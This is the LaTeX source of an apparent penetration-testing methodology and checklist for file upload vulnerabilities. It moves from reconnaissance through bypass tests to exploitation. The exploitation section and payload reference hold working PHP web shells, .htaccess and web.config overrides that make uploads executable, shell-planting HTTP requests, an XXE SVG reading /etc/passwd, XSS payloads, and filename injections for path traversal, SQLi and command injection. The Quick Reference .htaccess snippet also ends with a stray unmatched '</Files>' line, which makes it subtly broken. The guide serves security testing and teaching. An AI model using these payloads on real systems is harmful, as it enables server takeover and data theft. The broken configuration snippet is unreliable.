\documentclass[11pt]{article}

% ---------- Packages ----------
\usepackage[a4paper,margin=2.5cm]{geometry}
\usepackage{fontspec}
\usepackage{amssymb}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{tcolorbox}
\tcbuselibrary{breakable, skins}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{tabularx}
\usepackage{booktabs}
\usepackage{parskip}
\usepackage{tikz}
\usetikzlibrary{arrows.meta,positioning,shapes.geometric,fit}

% ---------- Colors ----------
\definecolor{darkgray}{HTML}{2B2B2B}
\definecolor{codebg}{HTML}{F4F4F4}
\definecolor{accent}{HTML}{8E2DE2}
\definecolor{req}{HTML}{005CC5}
\definecolor{warnbg}{HTML}{FFF3F3}
\definecolor{warnline}{HTML}{D9534F}
\definecolor{tipbg}{HTML}{EFFAF3}
\definecolor{tipline}{HTML}{2E7D32}
\definecolor{checkgreen}{HTML}{2E7D32}
\definecolor{stepblue}{HTML}{005CC5}
\definecolor{codebg}{RGB}{245,245,245}
\definecolor{httpblue}{RGB}{20,60,110}
\definecolor{causeorange}{RGB}{180,80,0}
\definecolor{checkgreen}{RGB}{0,120,0}

% ---------- Listings (HTTP requests / code) ----------
\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,HTTP,Host,Content-Type,Content-Length,Content-Disposition},
  sensitive=true
}

\lstset{
  basicstyle=\ttfamily\small,
  backgroundcolor=\color{codebg},
  frame=single,
  rulecolor=\color{gray!40},
  breaklines=true,
  columns=fullflexible,
  showstringspaces=false,
  xleftmargin=4pt,
  xrightmargin=4pt,
  framexleftmargin=6pt,
  tabsize=2
}

% Listings styles
\lstdefinestyle{code}{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\small,
    frame=single,
    rulecolor=\color{gray},
    columns=fullflexible,
    breaklines=true,
    breakatwhitespace=false,
    showstringspaces=false,
    language=Python,
    keywordstyle=\color{httpblue}\bfseries,
    commentstyle=\color{causeorange}\itshape,
    stringstyle=\color{teal},
    morekeywords={class,public,private,protected,function,new,static,final,void,String,readObject,writeObject,unserialize,serialize,__wakeup,__sleep,__destruct,__construct,__get,__toString,exec,system,pickle,loads,dumps,Marshal,load,require},
}

% ---------- Section styling ----------
\titleformat{\section}{\large\bfseries\color{darkgray}}{\thesection}{0.6em}{}[{\color{accent}\titlerule[1pt]}]
\titleformat{\subsection}{\normalsize\bfseries\color{darkgray}}{\thesubsection}{0.6em}{}
\titlespacing*{\section}{0pt}{1.4em}{0.8em}

% ---------- Custom boxes ----------
\newtcolorbox{note}{colback=tipbg, colframe=tipline, boxrule=0.6pt, left=6pt, right=6pt, top=4pt, bottom=4pt, breakable, title=Note, fonttitle=\bfseries, coltitle=tipline}
\newtcolorbox{warning}{colback=warnbg, colframe=warnline, boxrule=0.6pt, left=6pt, right=6pt, top=4pt, bottom=4pt, breakable, title=Watch out, fonttitle=\bfseries, coltitle=warnline}
\newtcolorbox{checklistbox}{
    breakable, 
    colback=green!5, 
    colframe=checkgreen, 
    boxrule=0.6pt, 
    left=6pt, 
    right=6pt, 
    top=4pt, 
    bottom=4pt,
    title=Checklist,
    fonttitle=\bfseries, 
    coltitle=white,
    colbacktitle=checkgreen
}
\newtcolorbox{stepbox}[1]{
    breakable,
    colback=blue!4,
    colframe=stepblue,
    boxrule=0.6pt,
    left=6pt,
    right=6pt,
    top=4pt,
    bottom=4pt,
    title=Step #1,
    fonttitle=\bfseries,
    coltitle=white,
    colbacktitle=stepblue
}

\newcommand{\tool}[1]{\textsf{\textbf{#1}}}

\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{File Upload Vulnerabilities -- Methodology \& Checklist}
\fancyhead[R]{Eyad Islam Eltaher}
\fancyfoot[C]{\thepage}
\renewcommand{\headrulewidth}{0.4pt}
\setlength{\headheight}{14pt}

\hypersetup{
  colorlinks=true,
  linkcolor=accent,
  urlcolor=req,
  citecolor=accent,
  pdftitle={File Upload Vulnerabilities - Methodology and Checklist},
  pdfauthor={Eyad Islam Eltaher}
}

\title{\vspace{-2cm}\textbf{\Huge File Upload Vulnerabilities}\\[0.4em]\Large Methodology \& Checklist}
\author{\Large Eyad Islam Eltaher}
\date{\today}

\begin{document}

\maketitle
\thispagestyle{empty}

\newpage
\tableofcontents
\newpage

% =========================================================
\section{Methodology Overview}
% =========================================================

\begin{itemize}
    \item \textbf{Goal:} Identify, confirm, and exploit file upload vulnerabilities across web applications.
    \item \textbf{Approach:} Systematic reconnaissance → endpoint mapping → validation testing → exploitation → impact confirmation.
    \item \textbf{Key mindset:} A file upload vulnerability is rarely a single flaw — it is a chain of validation gaps, server configurations, and access controls.
\end{itemize}


\begin{tikzpicture}[node distance=1.2cm, every node/.style={font=\small, align=center}]
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm] (recon) {Reconnaissance\\\tiny{Map all endpoints}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, right=1.8cm of recon] (baseline) {Baseline\\\tiny{Capture valid upload}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, right=1.8cm of baseline] (fingerprint) {Fingerprint\\\tiny{Stack identification}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, below=1.2cm of fingerprint] (test) {Systematic Testing\\\tiny{Extension, content, race}};
    \node[draw, rounded corners, fill=orange!10, draw=warnline, minimum width=2.8cm, minimum height=0.9cm, below=1.2cm of baseline] (exploit) {Exploit\\\tiny{RCE, XSS, XXE}};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.8cm, minimum height=0.9cm, below=1.2cm of recon] (confirm) {Confirm\\\tiny{OOB verification}};
    
    \draw[-{Latex[length=2mm]}] (recon) -- (baseline);
    \draw[-{Latex[length=2mm]}] (baseline) -- (fingerprint);
    \draw[-{Latex[length=2mm]}] (fingerprint) -- (test);
    \draw[-{Latex[length=2mm]}] (test) -- (exploit);
    \draw[-{Latex[length=2mm]}] (exploit) -- (confirm);
\end{tikzpicture}

% =========================================================
\section{Phase 1: Reconnaissance}
% =========================================================

\subsection{Identify All Upload Entry Points}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{Web forms:} Scan for \texttt{<input type="file">} elements in HTML
    \item[\checkmark] \textbf{API endpoints:} Look for \texttt{/api/upload}, \texttt{/api/files}, \texttt{/api/v1/media}
    \item[\checkmark] \textbf{Admin panels:} Often have media, theme, or plugin upload features
    \item[\checkmark] \textbf{Import functions:} CSV, XML, Excel import features
    \item[\checkmark] \textbf{Chat/attachments:} Message attachments, ticket uploads
    \item[\checkmark] \textbf{Profile/avatar:} User profile picture uploads
    \item[\checkmark] \textbf{Document management:} CV, ID verification, KYC uploads
    \item[\checkmark] \textbf{Content Management Systems:} Media libraries, theme/plugin uploads
    \item[\checkmark] \textbf{URL-based uploads:} ``Upload by URL'' or ``import from link'' features
    \item[\checkmark] \textbf{PUT endpoints:} Test with \texttt{OPTIONS} to check for \texttt{PUT} support
    \item[\checkmark] \textbf{Reverse proxies/CDNs:} Different backends may have different configurations
\end{itemize}
\end{checklistbox}

\subsection{Endpoint Discovery Techniques}

\begin{itemize}
    \item \textbf{Burp Content Discovery:} Brute-force common upload paths
    \item \textbf{Spider/Crawl:} Follow all links and forms
    \item \textbf{JavaScript analysis:} Look for hardcoded API endpoints
    \item \textbf{Swagger/OpenAPI:} Check for \texttt{/swagger}, \texttt{/api-docs}, \texttt{/docs}
    \item \textbf{Web application firewall (WAF) logs:} Review any accessible error logs
\end{itemize}

% =========================================================
\section{Phase 2: Baseline Request \& Fingerprinting}
% =========================================================

\subsection{Capture a Legitimate Upload}

A typical multipart upload request:

\begin{lstlisting}[language=http]
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]
---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
\end{lstlisting}

\subsection{Key Elements to Manipulate}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{Filename:} Extension, path traversal, injection payloads
    \item[\checkmark] \textbf{Part Content-Type:} \texttt{image/jpeg}, \texttt{text/plain}, etc.
    \item[\checkmark] \textbf{File body:} Magic bytes, actual content, polyglot payloads
    \item[\checkmark] \textbf{File size:} Small, large, decompression bombs
\end{itemize}
\end{checklistbox}

\subsection{Fingerprint the Stack}

\begin{itemize}
    \item \textbf{Server:} Apache, Nginx, IIS, Tomcat
    \item \textbf{Language:} PHP, Java, ASP.NET, Python, Node.js, Ruby
    \item \textbf{Processing libraries:} ImageMagick, GD, FFmpeg, exiftool, Office parsers
    \item \textbf{Framework:} WordPress, Laravel, Django, Spring, Rails
    \item \textbf{Storage location:} Response headers, page source, error messages
    \item \textbf{Serving mechanism:} Direct static serving, download handler, CDN
\end{itemize}

\subsection{Determine Storage and Serving}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Does the response leak the storage path?
    \item[\checkmark] Is the file served from the same domain or a CDN?
    \item[\checkmark] Is the path predictable (e.g., \texttt{/files/avatars/<filename>})?
    \item[\checkmark] Is there a download handler (\texttt{/download?id=123})?
    \item[\checkmark] Does the application return an ID that maps to the file?
    \item[\checkmark] Can you guess/brute-force the path?
\end{itemize}
\end{checklistbox}

\begin{note}
The most exploitable uploads are those where the file is stored in a web-accessible location with a predictable name. If the path is unpredictable or not web-accessible, pivot to non-RCE impacts (XSS, XXE, parser bugs).
\end{note}

% =========================================================
\section{Phase 3: Systematic Testing}
% =========================================================

\subsection{Extension Validation Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Test the target's native dangerous extension: \texttt{.php}, \texttt{.jsp}, \texttt{.asp}, \texttt{.aspx}
    \item[\checkmark] Test alternative executable extensions:
    \begin{itemize}
        \item PHP: \texttt{.php3}, \texttt{.php4}, \texttt{.php5}, \texttt{.php7}, \texttt{.pht}, \texttt{.phtml}, \texttt{.phar}, \texttt{.phpt}, \texttt{.pgif}, \texttt{.inc}
        \item ASP/IIS: \texttt{.asa}, \texttt{.cer}, \texttt{.config}, \texttt{.asax}
        \item Java: \texttt{.jspx}, \texttt{.jspf}
        \item Python: \texttt{.py}, \texttt{.wsgi}
    \end{itemize}
    \item[\checkmark] Test double extensions: \texttt{shell.php.jpg}, \texttt{shell.jpg.php}
    \item[\checkmark] Test reversed double extensions: \texttt{shell.php.jpg.png}
    \item[\checkmark] Test case manipulation: \texttt{.pHp}, \texttt{.PhP}, \texttt{.PHP}
    \item[\checkmark] Test trailing characters: \texttt{.php.}, \texttt{.php\%20}, \texttt{.php.....}
    \item[\checkmark] Test null byte injection (older stacks): \texttt{.php\%00.jpg}, \texttt{.php\textbackslash x00.jpg}
    \item[\checkmark] Test semicolon bypass (legacy Java/ASP): \texttt{.asp;.jpg}
    \item[\checkmark] Test URL-encoded characters: \texttt{.\%2Ephp}, \texttt{.php\%2Ejpg}
    \item[\checkmark] Test Unicode normalization bypasses
    \item[\checkmark] Test recursive-stripping bypass: \texttt{.p.phphp} → \texttt{.php}
\end{itemize}
\end{checklistbox}

\subsection{Content-Type Validation Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Change only the part \texttt{Content-Type} header to an allowed value while keeping a malicious extension
    \item[\checkmark] Test with invalid but plausible Content-Types: \texttt{image/png}, \texttt{application/pdf}
    \item[\checkmark] Test with \texttt{Content-Type: application/octet-stream}
    \item[\checkmark] Test with multiple Content-Type headers
    \item[\checkmark] Test with malformed Content-Type headers
\end{itemize}
\end{checklistbox}

\subsection{Content/File Validation Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Does the server check magic bytes/signatures? Try:
    \begin{itemize}
        \item JPEG: starts with \texttt{FF D8 FF}
        \item PNG: starts with \texttt{89 50 4E 47}
        \item GIF: starts with \texttt{47 49 46 38}
    \end{itemize}
    \item[\checkmark] Does it check image dimensions via \texttt{getimagesize()}?
    \item[\checkmark] Can you embed a payload in EXIF metadata (polyglot)?
    \item[\checkmark] Can you use a \texttt{\_\_halt\_compiler()} polyglot (PHP)?
    \item[\checkmark] Can you create a valid image + web shell polyglot?
\end{itemize}
\end{checklistbox}

\subsection{Configuration File Upload Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] Try uploading \texttt{.htaccess} (Apache) with:
    \begin{lstlisting}[style=code]
AddType application/x-httpd-php .rce
    \end{lstlisting}
    \item[\checkmark] Try uploading \texttt{web.config} (IIS) with:
    \begin{lstlisting}[style=code]
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="php" path="*.rce" verb="*" modules="FastCgiModule" 
           scriptProcessor="C:\PHP\php-cgi.exe" resourceType="File" />
    </handlers>
  </system.webServer>
</configuration>
    \end{lstlisting}
    \item[\checkmark] Try uploading \texttt{uwsgi.ini} (Python/WSGI) if applicable
\end{itemize}
\end{checklistbox}

\begin{warning}
\texttt{.htaccess} files only affect the directory they are placed in and its subdirectories. For the upload to work, the \texttt{.htaccess} file must be uploaded to the same directory where payloads are stored, and Apache must have \texttt{AllowOverride} enabled for that directory.
\end{warning}

\subsection{Race Condition Tests}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] If the server validates after storing (validate-then-delete), try requesting the file immediately after upload
    \item[\checkmark] Use Burp Turbo Intruder or parallel requests to maximize race window
    \item[\checkmark] For URL-based uploads, make the remote file respond slowly to widen the window
    \item[\checkmark] Pad the file with junk data after the payload to slow processing
    \item[\checkmark] Test if temporary directory names are predictable (e.g., \texttt{uniqid()})
\end{itemize}
\end{checklistbox}

\subsection{Non-RCE Attack Vectors}

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{Stored XSS via HTML/SVG:} Upload files containing \texttt{<script>} tags
    \item[\checkmark] \textbf{Filename injection:}
    \begin{itemize}
        \item Path traversal: \texttt{../../../../etc/passwd}
        \item XSS: \texttt{'"><img src=x onerror=alert(1)>.jpg}
        \item SQLi: \texttt{poc.js'(select*from(select(sleep(20)))a)+'.jpg}
        \item Command injection: \texttt{file\_name; sleep 10;.jpg}
    \end{itemize}
    \item[\checkmark] \textbf{XXE via XML-based documents:}
    \begin{itemize}
        \item SVG files
        \item DOCX, XLSX, PPTX (Office Open XML)
        \item Custom XML imports
    \end{itemize}
    \item[\checkmark] \textbf{Parser CVEs:}
    \begin{itemize}
        \item ImageMagick (ImageTragick family)
        \item FFmpeg
        \item exiftool
        \item PDF parsers
    \end{itemize}
\end{itemize}
\end{checklistbox}

% =========================================================
\section{Phase 4: Exploitation}
% =========================================================

\subsection{Decision Tree: Which Exploit Path to Take?}


\begin{tikzpicture}[node distance=1.2cm, every node/.style={font=\small}]
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center] (start) {File web-accessible\\ and executable?};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center, right=1.8cm of start] (direct) {Yes → Direct\\ web shell upload};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center, below=1.2cm of start] (config) {Can upload\\ config files?};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.5cm, minimum height=0.8cm, align=center, left=1.8cm of config] (race) {Validate after\\ store?};
    \node[draw, rounded corners, fill=orange!10, draw=warnline, minimum width=3.5cm, minimum height=0.8cm, align=center, below=1.2cm of config] (nondirect) {Non-RCE attacks\\ (XSS, XXE, parser)};
    
    \draw[-{Latex[length=2mm]}] (start) -- (direct);
    \draw[-{Latex[length=2mm]}] (start) -- (config);
    \draw[-{Latex[length=2mm]}] (config) -- (nondirect);
    \draw[-{Latex[length=2mm]}] (start) -- (race);
    \draw[-{Latex[length=2mm]}] (race) -- (direct);
\end{tikzpicture}

\subsection{Exploitation Path A: Direct Web Shell}

If the file is web-accessible and the server executes PHP/ASP/JSP:

\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}

Then request:
\begin{lstlisting}[language=http]
GET /files/avatars/shell.php?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}

\subsection{Exploitation Path B: Configuration File Override}

Step 1: Upload \texttt{.htaccess}:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .rce
------WebKitFormBoundary--
\end{lstlisting}

Step 2: Upload payload with new extension:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.rce"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}

Step 3: Execute:
\begin{lstlisting}[language=http]
GET /files/avatars/shell.rce?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}

\subsection{Exploitation Path C: Race Condition}

\begin{lstlisting}[language=http]
# Upload request (sent once)
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}

\begin{lstlisting}[language=http]
# Repeated requests in parallel (Turbo Intruder)
GET /files/avatars/shell.php?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}

\subsection{Exploitation Path D: Non-RCE Attacks}

\subsubsection{Stored XSS via SVG}
\begin{lstlisting}[language=http]
POST /upload/attachment HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
------WebKitFormBoundary--
\end{lstlisting}

\subsubsection{XXE via SVG}
\begin{lstlisting}[language=http]
POST /documents/upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="128px" height="128px">
<text>&xxe;</text>
</svg>
------WebKitFormBoundary--
\end{lstlisting}

\subsubsection{PUT Method Upload}
\begin{lstlisting}[language=http]
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
\end{lstlisting}

% =========================================================
\section{Phase 5: Impact Confirmation}
% =========================================================

\begin{checklistbox}
\begin{itemize}
    \item[\checkmark] \textbf{RCE:} Execute a safe command first (\texttt{touch /tmp/test}), then verify
    \item[\checkmark] \textbf{File read:} Try reading \texttt{/etc/passwd}, \texttt{/proc/self/environ}, \texttt{C:\textbackslash Windows\textbackslash win.ini}
    \item[\checkmark] \textbf{File deletion:} Check if the target file is actually gone
    \item[\checkmark] \textbf{XSS:} Trigger the XSS with an alert, then escalate to session hijacking
    \item[\checkmark] \textbf{XXE:} Confirm external entity resolution by reading a known file
    \item[\checkmark] \textbf{Out-of-band:} Use Burp Collaborator for DNS/HTTP callbacks
    \item[\checkmark] \textbf{Time-based:} Use \texttt{sleep(10)} commands to confirm via timing
    \item[\checkmark] \textbf{Log evidence:} Check application logs for signs of execution
\end{itemize}
\end{checklistbox}

% =========================================================
\section{Complete Testing Checklist}
% =========================================================

\begin{checklistbox}
\subsection*{Phase 1: Reconnaissance}
\begin{itemize}
    \item[$\square$] Identify all upload entry points (forms, APIs, admin panels)
    \item[$\square$] Check for hidden upload endpoints in JavaScript/Swagger
    \item[$\square$] Test \texttt{OPTIONS} method for \texttt{PUT} support
    \item[$\square$] Identify backend technology (server, language, libraries)
\end{itemize}

\subsection*{Phase 2: Baseline \& Fingerprinting}
\begin{itemize}
    \item[$\square$] Capture a legitimate upload request
    \item[$\square$] Determine storage location and web accessibility
    \item[$\square$] Check if the response leaks the storage path
    \item[$\square$] Test if the path is predictable or brute-forceable
\end{itemize}

\subsection*{Phase 3: Extension Validation}
\begin{itemize}
    \item[$\square$] Test dangerous extension directly (\texttt{.php}, \texttt{.jsp}, \texttt{.asp})
    \item[$\square$] Test alternative executable extensions
    \item[$\square$] Test case manipulation (\texttt{.pHp})
    \item[$\square$] Test double extensions (\texttt{.php.jpg})
    \item[$\square$] Test reversed double extensions
    \item[$\square$] Test trailing characters (\texttt{.php.}, \texttt{.php\%20})
    \item[$\square$] Test null byte injection (\texttt{.php\%00.jpg})
    \item[$\square$] Test semicolon bypass (\texttt{.asp;.jpg})
    \item[$\square$] Test URL-encoded characters
    \item[$\square$] Test recursive-stripping bypass (\texttt{.p.phphp})
\end{itemize}

\subsection*{Phase 4: Content-Type Validation}
\begin{itemize}
    \item[$\square$] Change part \texttt{Content-Type} to an allowed type
    \item[$\square$] Test with invalid but plausible \texttt{Content-Type}
    \item[$\square$] Test with multiple \texttt{Content-Type} headers
    \item[$\square$] Test with malformed \texttt{Content-Type} headers
\end{itemize}

\subsection*{Phase 5: Content Validation}
\begin{itemize}
    \item[$\square$] Test magic byte validation (JPEG, PNG, GIF signatures)
    \item[$\square$] Test dimension validation (\texttt{getimagesize()})
    \item[$\square$] Create a polyglot file (valid image + payload)
    \item[$\square$] Use EXIF metadata to embed payload
    \item[$\square$] Use \texttt{\_\_halt\_compiler()} polyglot for PHP
\end{itemize}

\subsection*{Phase 6: Configuration Files}
\begin{itemize}
    \item[$\square$] Test uploading \texttt{.htaccess} (Apache)
    \item[$\square$] Test uploading \texttt{web.config} (IIS)
    \item[$\square$] Test uploading \texttt{uwsgi.ini} (Python/WSGI)
\end{itemize}

\subsection*{Phase 7: Race Conditions}
\begin{itemize}
    \item[$\square$] Test validate-then-delete workflows with parallel requests
    \item[$\square$] Use Burp Turbo Intruder to maximize race window
    \item[$\square$] For URL-based uploads, make remote file respond slowly
\end{itemize}

\subsection*{Phase 8: Non-RCE Vectors}
\begin{itemize}
    \item[$\square$] Test Stored XSS via HTML/SVG uploads
    \item[$\square$] Test filename injection (path traversal, XSS, SQLi, command injection)
    \item[$\square$] Test XXE via SVG, DOCX, XLSX uploads
    \item[$\square$] Test parser CVEs (ImageMagick, FFmpeg, exiftool)
\end{itemize}

\subsection*{Phase 9: PUT Method}
\begin{itemize}
    \item[$\square$] Send \texttt{OPTIONS} request to check \texttt{PUT} support
    \item[$\square$] Attempt direct \texttt{PUT} upload to web-accessible path
\end{itemize}

\subsection*{Phase 10: Confirmation}
\begin{itemize}
    \item[$\square$] Verify RCE with a safe command
    \item[$\square$] Verify file read with known file path
    \item[$\square$] Verify XSS/XXE with out-of-band confirmation
    \item[$\square$] Document the exact payload and conditions
    \item[$\square$] Test on multiple endpoints to confirm reproducibility
\end{itemize}
\end{checklistbox}

% =========================================================
\section{Tools Reference}
% =========================================================

\begin{center}
\begin{tabularx}{\linewidth}{@{}l X@{}}
\toprule
\textbf{Tool} & \textbf{Purpose} \\
\midrule
Burp Suite & Intercept, modify, and replay upload requests \\
Burp Turbo Intruder & Parallel requests for race condition testing \\
Burp Upload Scanner (extension) & Automated file upload testing \\
OWASP ZAP FileUpload add-on & Systematic upload vulnerability scanning \\
fuxploider & Automated file upload fuzzing \\
exiftool & Create polyglot files with embedded payloads \\
ImageMagick & Test parser vulnerabilities, create polyglots \\
ysoserial & Java deserialization payloads (if combined with upload) \\
PayloadsAllTheThings & Reference payloads for extensions and bypasses \\
\bottomrule
\end{tabularx}
\end{center}

% =========================================================
\section{Quick Reference: Common Payloads}
% =========================================================

\subsection{PHP Web Shell}
\begin{lstlisting}[style=code]
<?php echo system($_GET['command']); ?>
<?php echo file_get_contents('/path/to/file'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo shell_exec($_REQUEST['cmd']); } ?>
\end{lstlisting}

\subsection{.htaccess Override}
\begin{lstlisting}
AddType application/x-httpd-php .rce
AddHandler application/x-httpd-php .rce
</Files>
\end{lstlisting}

\subsection{web.config Override (IIS)}
\begin{lstlisting}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="php" path="*.rce" verb="*" modules="FastCgiModule" 
           scriptProcessor="C:\PHP\php-cgi.exe" resourceType="File" />
    </handlers>
  </system.webServer>
</configuration>
\end{lstlisting}

\subsection{XXE Payload (SVG)}
\begin{lstlisting}
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg><text>&xxe;</text></svg>
\end{lstlisting}

\subsection{Stored XSS (SVG)}
\begin{lstlisting}
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
\end{lstlisting}

% =========================================================
\section{Common Pitfalls \& How to Avoid Them}
% =========================================================

\begin{itemize}
    \item \textbf{Pitfall:} Only testing the \texttt{filename} extension, ignoring the part \texttt{Content-Type}
    \begin{itemize}
        \item \textbf{Solution:} Test both independently and in combination
    \end{itemize}
    
    \item \textbf{Pitfall:} Assuming a 200 response means the file is executable
    \begin{itemize}
        \item \textbf{Solution:} Actually request the uploaded file and verify execution
    \end{itemize}
    
    \item \textbf{Pitfall:} Testing only \texttt{.php} when \texttt{.php5} or \texttt{.phtml} would work
    \begin{itemize}
        \item \textbf{Solution:} Use PayloadsAllTheThings for comprehensive extension lists
    \end{itemize}
    
    \item \textbf{Pitfall:} Missing non-RCE attacks because RCE isn't immediately possible
    \begin{itemize}
        \item \textbf{Solution:} Always test stored XSS, XXE, and filename injection
    \end{itemize}
    
    \item \textbf{Pitfall:} Forgetting to check \texttt{PUT} support
    \begin{itemize}
        \item \textbf{Solution:} Always send \texttt{OPTIONS} request to test endpoints
    \end{itemize}
    
    \item \textbf{Pitfall:} Not checking if the upload directory executes scripts
    \begin{itemize}
        \item \textbf{Solution:} Test by uploading a benign \texttt{test.php} and requesting it
    \end{itemize}
    
    \item \textbf{Pitfall:} Ignoring CDN/reverse proxy differences
    \begin{itemize}
        \item \textbf{Solution:} Test uploads through different paths/domains
    \end{itemize}
\end{itemize}

% =========================================================
\section{References}
% =========================================================

\begin{itemize}
    \item PortSwigger Web Security Academy: \url{https://portswigger.net/web-security/file-upload}
    \item OWASP File Upload Cheat Sheet: \url{https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html}
    \item PayloadsAllTheThings: \url{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload\%20Insecure\%20Files}
    \item ImageTragick (CVE-2016-3714): \url{https://imagetragick.com/}
    \item Null Byte Injection: \url{https://owasp.org/www-community/attacks/Null-byte_injection}
\end{itemize}

\end{document}